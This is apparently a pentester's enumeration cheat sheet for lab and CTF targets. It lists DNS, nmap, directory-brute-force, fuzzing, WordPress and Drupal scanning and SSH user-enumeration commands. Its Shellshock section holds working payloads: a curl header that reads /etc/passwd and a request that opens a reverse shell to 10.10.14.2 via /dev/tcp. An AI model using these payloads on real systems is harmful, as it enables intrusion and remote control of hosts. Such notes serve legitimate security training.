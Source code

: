# Enumeration

<details>

<summary>Reverse Lookup IP addresses to hostnames</summary>

### Using nslookup

```bash
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
;; communications error to 10.10.10.13#53: timed out
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

### Obtain IPs of machines that are up:

* save as `ips.txt`

```bash
nmap -sn --min-rate 5000 10.11.1.0/24 | grep "Nmap scan report for" | cut -d " " -f 5 > ips.txt
```

### Find possible DNS servers

```bash
nmap -p 53 --min-rate 5000 -iL ips.txt -oG dns_scan_results.txt
```

```bash
cat dns_scan_results.txt | grep "Ports: 53/open/" | cut -d " " -f 2 > dns_servers.txt
```

### Using DNSrecon to reverse lookup using different DNS servers:

```bash
for server in $(cat dns_servers.txt); do echo Using DNS server $server;dnsrecon -r 10.11.1.0/24 -n $server; done
```

### Reverse DNS lookup for one IP:

#### DNSRecon

```bash
dnsrecon -r 10.11.1.0/24 -n 10.11.1.220
```

#### Host command

```bash
host 10.11.1.116 10.11.1.220 
```

* Query dns server at 10.11.1.220 about the hostname of 10.11.1.116

</details>

<details>

<summary>Sitemap files</summary>

* /robots.txt

- /.htaccess

* /.htpasswd

- /sitemap.xml

</details>

<details>

<summary>Try /cgi-bin/ folder (Shellshock)</summary>

* If Status Code 200 --> possibly [shellshock](https://github.com/b4keSn4ke/CVE-2014-6271)
* If Status Code 403 --> try to enumerate `.sh`, `.cgi` files under `/cgi-bin/` directory

```bash
dirsearch -u http://10.11.1.71/cgi-bin -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt
```

* Commands for Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh
```

* Burp Shellshock POST Request

```bash
POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
Content-Length: 28

page=%2F&user=root&pass=root
```

* Nmap scan to search for shellshock

```bash
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/{location},cmd=ls <target>
```

broken by default, fix here: [https://www.youtube.com/watch?v=IBlTdguhgfY\&t=670s](https://www.youtube.com/watch?v=IBlTdguhgfY\&t=670s)

</details>

<details>

<summary>Dirsearch</summary>

<pre class="language-shell"><code class="lang-shell"><strong>dirsearch -u &#x3C;ip> -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
</strong></code></pre>

```shell
dirsearch -u 172.16.64.140/project --auth-type=basic --auth=YWRtaW46YWRtaW4= -X -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
dirsearch -u http://192.168.206.156:8000/ipphone_files --cookie="PHPSESSID=cjetu00a7pouinp0oj9v01r6r0" -X -i 200,301 -r -f -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

</details>

<details>

<summary>Subdomain Enumeration</summary>

```bash
ffuf -u http://shoppy.htb/ -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw <no. of words for default page>

gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain | grep -v 302
```

Can try wordlist`/usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt`

* Add any subdomain you've found into `/etc/hosts`

```
10.10.57.54 dev.cmess.htm
```

</details>

<details>

<summary>Wpscan</summary>

```bash
wpscan --url somewebsite.com --enumerate u,ap,at,cb,dbe
```

* add in `--disable-tls-checks` for HTTPS sites

</details>

<details>

<summary>Droopescan (Drupal)</summary>

```bash
droopescan scan drupal -u http://10.10.10.9/ -t 32
```

Drupal 7 <= 7.57

* [https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py)

</details>

<details>

<summary>Gobuster</summary>

```shell
gobuster dir -u <target site> -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200 -q
```

```shell
gobuster dir -x php,txt -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 200 -q
```

```
gobuster -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'
```

```bash
gobuster dir -k -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -t 20
```

### Enumerate API (often followed by version number, v1, v2)

```bash
#api --> often followed by a version number
#	/api_name/v1
#	/api_name/v2
#pattern file:
#	{GOBUSTER}/v1
#	{GOBUSTER}/v2
gobuster dir -u http://192.168.50.16:5002 -w 
```

</details>

<details>

<summary>Testing file extensions for IIS servers</summary>

```
asp
aspx
config
php
```

</details>

<details>

<summary>Wfuzz</summary>

```bash
wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
```

```
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
```

#### Post req:

```bash
wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ" --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)
```

#### Fuzzing cookies:

```bash
wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ
```

</details>

<details>

<summary>Perform Zone Transfer</summary>

* Scan a domain, specifying the nameserver and performing a zone transfer

```bash
dnsrecon --domain example.com --name_server nameserver.example.com --type axfr
```

</details>

<details>

<summary>Dig</summary>

### Zone Transfer

```bash
dig @192.168.194.165 AXFR heist.offsec
```

```bash
dig www.example.com + short
```

* For IPv4

```bash
dig -4 www.example.com 
```

```bash
dig www.example.com MX
```

```bash
dig www.example.com NS
```

```bash
dig www.example.com> SOA
```

</details>

<details>

<summary>DNSEnum</summary>

```bash
dnsenum 192.168.194.165
```

</details>

<details>

<summary>SSH Username Enum</summary>

* Linux with OpenSSH < 7.7

[https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py](https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py)

```
python ssh-username-enum.py <IP> -w <wordlist>
```

* Wordlist: [https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt](https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt)

</details>

